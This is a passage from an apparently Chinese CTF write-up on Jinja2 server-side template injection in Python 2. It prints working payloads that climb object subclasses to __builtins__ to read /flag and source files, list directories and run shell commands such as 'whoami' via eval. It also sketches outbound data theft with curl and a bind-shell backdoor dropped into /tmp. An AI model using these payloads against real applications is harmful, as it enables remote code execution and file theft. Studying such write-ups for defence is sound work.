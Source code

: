 (2)返回内容过长或者没办法读取

*验证猜想*

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__["open"](__file__).read()[:10].encode('hex')}}
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__["open"]('/flag').read()[:10].encode('hex')}}
```

发现不是内容过长问题 那么是不是替换了file了

然后尝试将payload进行hexcode编码在union 发现还是不行 那么也不可能 那么是不是不能读取呢 

————这个坑没弄懂-----------------------------

打算读取下源代码分析下:

获取当前文件名:

`{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").path.abspath(__file__)')}}`

得到

`/usr/local/lib/python2.7/dist-packages/jinja2/runtime.pyc`

很明显就是这个不是源代码 是传参数进去调用的



后来搞了个命令执行的payload 获取路径的payload

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('str(__import__("os").listdir("/")).encode("hex")')}}
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('str(__import__("os").system("whoami")')}}
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('str(__import__("os").list("/"))')}}
```

但是返回的是个整形 (由于自己太菜当时没想到去研究下,后来经过郁离歌师傅的指导知道了popen这个函数可以读取返回 这样就是个伪shell了)

回到我的思路来:

​	当时想通过外带查询把结果导出来 然后试了curl url 发现进程被中断 估计做了出站处理 所以说只能搞正向shell了

[python正向连接后门](https://www.leavesongs.com/python/python-shell-backdoor.html)  这个参考了p神的代码,那么思路就出来了

(1) /tmp 目录可写 那么可以通过编码||分段写进去 然后eval执行(再次膜拜郁师傅)

(2)直接组合成一句话 eval执行(* 这个点后续研究)



## 解决命令无结果回显问题  

**os.system() 和 os.open()两者的区别**:  

查阅文档 [os官方文档](https://docs.python.org/2/library/os.html)
